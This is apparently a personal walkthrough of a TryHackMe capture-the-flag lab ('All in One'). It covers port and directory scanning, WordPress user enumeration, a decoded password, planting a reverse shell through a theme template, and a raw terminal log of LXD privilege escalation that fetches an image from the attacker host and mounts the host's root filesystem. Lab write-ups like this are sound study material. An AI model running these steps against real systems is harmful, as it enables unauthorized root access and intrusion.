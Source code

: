 ```yaml
---
title: Walkthrough - All in One
published: true
---
```


Security, i7md, wordpress, privesc, LXD. Fun bos where we get to exploit the system several ways

[https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.69.30 -vvv``

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

- ``sudo nmap -sV -sT -sC -p21,22,80 10.10.69.30``

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
|_  256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- can login to ftp anonymously but upon doing so there doesnt seem to be much for us to discover.

- ``gobuster dir -u http://10.10.17.196/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php --no-error -t 100`` 

- we find ``/wordpress`` and ``/hackathons``

- hackathons we see a possible hint "Damn how much I hate the smell of ~~Vinegar~~ :/ !!!" note the vinegar in italics. and a couple comments 

```
<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
```

- This is a Vigenere encryprion and cyber chef gives us "Try H@ckme@123"

- ``wpscan --url http://10.10.69.30/wordpress --``

- ``wpscan --url http://10.10.17.196/wordpress --enumerate u`` - we find username "elyana"

- ``[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).``

- can login with elyana:H@ckme@123

edit the main index template to start a revshell

* * * 

## What is the user flag?

- hint.txt in elyanas home dir gives us a hint that their password is stored somewhere hidden on the machine.
- ``find / -group elyana 2>/dev/null``

```
user: elyana
password: E@syR18ght
```

- we can then ssh in and ``cat user.txt`` which has a flag in base64

* * * 

## What is the root flag?

- we can use the lxc container to get root privileges. https://www.hackingarticles.in/lxd-privilege-escalation/

```
bash-4.4$ wget http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
--2022-08-05 04:39:42--  http://10.2.127.225/alpine-v3.13-x86_64-20210218_0139.tar.gz
Connecting to 10.2.127.225:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3259593 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’

alpine-v3.13-x86_64 100%[===================>]   3.11M   800KB/s    in 5.1s    

2022-08-05 04:40:53 (627 KB/s) - ‘alpine-v3.13-x86_64-20210218_0139.tar.gz’ saved [3259593/3259593]

image4.4$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias my 
bash-4.4$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Aug 5, 2022 at 4:41am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
bash-4.4$ lxc init myimage ignite -c security.privileged=true
Creating ignite
ursive=truexc config devive add ignite mydevice disk source=/ path=/mnt/root rec 
Description:
  Manage container and server configuration options

Usage:
  lxc config [command]

Available Commands:
  device      Manage container devices
  edit        Edit container or server configurations as YAML
  get         Get values for container or server configuration keys
  metadata    Manage container metadata files
  set         Set container or server configuration keys
  show        Show container or server configurations
  template    Manage container file templates
  trust       Manage trusted clients
  unset       Unset container or server configuration keys

Global Flags:
      --debug         Show all debug messages
      --force-local   Force using the local unix socket
  -h, --help          Print help
  -v, --verbose       Show all information messages
      --version       Print version number

Use "lxc config [command] --help" for more information about a command.
bash-4.4$ lxc init myimage ignite -c security.privileged=true
Creating ignite
Error: Container 'ignite' already exists
bash-4.4$ lxc start ignite
bash-4.4$ lxc ignite /bin/sh
Error: unknown command "ignite" for "lxc"
Run 'lxc --help' for usage.
bash-4.4$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # whoami
root
~ # cd /mnt/root
/bin/sh: cd: can't cd to /mnt/root: No such file or directory
~ # ls -las
total 12
     4 drwx------    2 root     root          4096 Aug  5 04:43 .
     4 drwxr-xr-x   19 root     root          4096 Aug  5 04:43 ..
     4 -rw-------    1 root     root            31 Aug  5 04:44 .ash_history
~ # cd /mnt/mnt/root
/bin/sh: cd: can't cd to /mnt/mnt/root: No such file or directory
~ # cd /
/ # ls
bin    etc    lib    mnt    proc   run    srv    tmp    var
dev    home   media  opt    root   sbin   sys    usr
/ # cd mnt/root/root
/bin/sh: cd: can't cd to mnt/root/root: No such file or directory
/ # cd mnt
/mnt # ls
/mnt # ls -las
total 8
     4 drwxr-xr-x    2 root     root          4096 Feb 18  2021 .
     4 drwxr-xr-x   19 root     root          4096 Aug  5 04:43 ..
/mnt # cd ..
/ # ls root
/ # cd root
~ # ls
~ # exit  
ursive=truexc config device add ignite mydevice disk source=/ path=/mnt/root recu
Device mydevice added to ignite
bash-4.4$ lxc start ignite
Error: Common start logic: The container is already running
bash-4.4$ lxc exec ignite /bin/sh
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
/mnt/root/root # 
```

* * * 

